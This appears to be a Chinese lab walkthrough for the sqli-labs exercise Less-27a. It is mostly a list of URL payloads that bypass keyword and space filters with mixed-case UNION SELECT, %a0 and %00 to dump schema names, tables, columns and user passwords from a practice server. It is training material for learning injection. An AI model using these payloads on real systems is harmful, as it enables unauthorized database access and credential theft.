

# Less-27a_01
为了测试方便，我们在代码中加入：
echo $sql;
echo "<br>";
1. http://47.100.118.240:8888/Less-27a/?id=1 有数据
2. http://47.100.118.240:8888/Less-27/?id=1’ 此时没有报错，我们将显示sql语句的代码加到代码中。
3. http://47.100.118.240:8888/Less-27a/?id=1“;%00  此时显示正常，但是报错的信息不会显示在代码中。
4. http://47.100.118.240:8888/Less-27a/?id=1111“ %a0  uNIon  %a0   sElEct  %a0    1,2,3     ;%00 得到数据可以回显的位置。
5. http://47.100.118.240:8888/Less-27a/?id=1111“ %a0  uNIon  %a0   sElEct  %a0    1,2, group_concat(schema_name) from    %a0  information_schema.schemata     ;%00 取出了所有的库
6. http://47.100.118.240:8888/Less-27a/?id=1111“ %a0  uNIon  %a0   sElEct  %a0    1,2, group_concat(table_name) from  %a0    information_schema.tables %a0    where  %a0    table_schema = 0x7365637572697479     ;%00 取出了所有的表
7. http://47.100.118.240:8888/Less-27a/?id=1111“ %a0  uNIon  %a0   sElEct  %a0    1,2, group_concat(column_name) %a0  from %a0 information_schema.columns  %a0 where %a0  table_name = 0x7573657273    ;%00 取出了所有的字段名
8. http://47.100.118.240:8888/Less-27a/?id=1111“ %a0  uNIon  %a0   sElEct  %a0    1,2, group_concat(concat_ws(0x7e,username,password))  %a0  from  %a0  security.users  ;%00 取出所有的字段值